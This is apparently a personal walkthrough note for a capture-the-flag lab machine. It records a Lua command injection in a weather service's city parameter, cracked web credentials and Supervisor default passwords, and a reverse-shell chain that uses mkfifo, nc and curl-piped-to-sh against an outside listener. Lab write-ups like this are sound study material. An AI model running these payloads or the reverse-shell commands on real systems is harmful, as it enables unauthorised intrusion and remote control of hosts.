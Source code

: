 # OS
	- NetBSD

# Credential
	- r.michaels / ??
	- webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0 (md5 encrypt, decrypt as iamthebest) 

# Website
	80: Webpage
		/
			- Need user/pass to authorized
			-	Indicate there's sth. run on port 3000
			=> webapi_user / iamthebest can login
		/robots.txt
			- there's /weather webpage.
		/weather ( Returning 404 but still harvesting cities )
			- /forcast
				- `/?city=<>` to specify cities
					- ' can cause error 500
					- '..'London can get normal execute
					- ');print('abc') can get print('abc') return 'abc', which means LUA COMMNAD INJECTION 
					- ');os.execute('id');-- Can get SHELL COMAND EXECUTION
						- Use + for space
						- Has curl
					- ls -al; cat .htpasswd find a user credencial webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
			
	9001: Medusa/1.12 (Supervisor process manager)
		/
			- Need user/pass to authorized
				- user/123
				=> Found the [default passowrd by Goolge](https://readthedocs.org/projects/supervisor/downloads/pdf/latest/)
		- Supervisor 4.2.0	
		- processes webpage
			- httpd running /weather on 127.0.0.1:3000
			- httpd running /weather on 127.0.0.1:3001, differnet lua script behid
			- A user called r.michaels
	
# Reverse Shell
1. echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 13338 >/tmp/f" > ./rev.sh
2. python3 -m http.server
3. nc -lnvp 13338
4. curl "curl+http://10.10.10.218/weather/forecast/?city=');os.execute('curl+http://10.10.14.20:8000/rev.sh|/bin/sh');--"
5. Get shell at nc
## tty shell
1. pythno3.8 -c 'import pty;pty.spawn("/bin/sh")'
2. 
3. stty raw -echo
4. fg
5. <Enter><Enter>


# TODO
1.(X) Check :80/weather
2.(X) Check :3000, :3000/weather
3.(X) Check :3001, :3001/weather
4. Fuzz :80/weather

